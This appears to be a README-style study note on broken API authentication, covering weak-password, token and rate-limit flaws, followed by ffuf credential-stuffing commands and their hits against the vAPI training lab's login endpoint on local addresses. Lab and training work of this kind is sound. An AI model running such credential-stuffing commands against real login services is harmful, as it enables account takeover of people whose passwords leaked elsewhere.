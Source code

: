 ## Features of Broken User Authentication

### Whenever one of the following conditions is true, we can speak of a Broken User Authentication

* -   If your API allows for credential stuffing, This is an attack where a hacker will try to brute force credentials by using a list with known account names and password from other websites. This works because people often re-use their old usernames and passwords so if their credentials leak one time, a lot of accounts are vulnerable. Attackers will take these old credentials and try them on [our API endpoints](https://www.wallarm.com/what/api-endpoint) rapidly to see if any of the accounts work on our application. Rate limiting should exits.
* -   If the API endpoint does not verify the request with a captcha when needed
* -   When the application allows for weak passwords. The best policy is to use a passphrase instead of a password but anything is better than a weak password.
* -   When the endpoint uses GET parameters (parameters in the URL) to send sensitive data such as passwords or tokens. This could allow for a [MiTM attack](https://www.wallarm.com/what/what-is-mitm-man-in-the-middle-attack).
* -   When our endpoint issues a token such as JWT but does not validate it.
* -   When we use JWT, we should be aware that we should not accept unsigned or weakly signed tokens.
* -   When the endpoint does not validate the expiration date of authentication tokens such as session tokens or JWT
* -   When the endpoint does not encrypt or hash the password or uses weak encryption algorithms.
* -   When it uses weak encryption keys that are easy to guess (Like a birthday) or easy to crack (like md5)


#### Some Notes how to exploit Broken User Authentication in vAPI

```
# To extract data from a comma seperated large file
cut -d "," -f 1 creds.csv > emails.txt  
cut -d "," -f 2 creds.csv > passwords.txt  
```


```
ffuf -w ~/vAPI/emails.txt:FUZZ1 -w ~/vAPI/passwords.txt:FUZZ2 -X POST -d '{"email":"FUZZ1","password":"FUZZ2"}' -H "Content-Type: application/json" -u http://192.168.1.26/vapi/api2/user/login -mc 200 -mode pitchfork -s


ffuf -w ~/test/emails.txt:FUZZ1 -w ~/test/passwords.txt:FUZZ2 -X POST -d '{"email":"FUZZ1","password":"FUZZ2"}' -H "Content-Type: application/json" -u http://127.0.0.1/vapi/api2/user/login -mc 200 -mode pitchfork -s

#GOT FOLLOWING RESULTS:
#FUZZ2 : zTyBwV/9 FFUFHASH : c98e61c7 FUZZ1 : savanna48@ortiz.com 
#FUZZ1 : hauck.aletha@yahoo.com FUZZ2 : kU-wDE7r FFUFHASH : c98e626a 
#FUZZ2 : kU-wDE7r FFUFHASH : c98e6323 FUZZ1 : harber.leif@beatty.info 

```

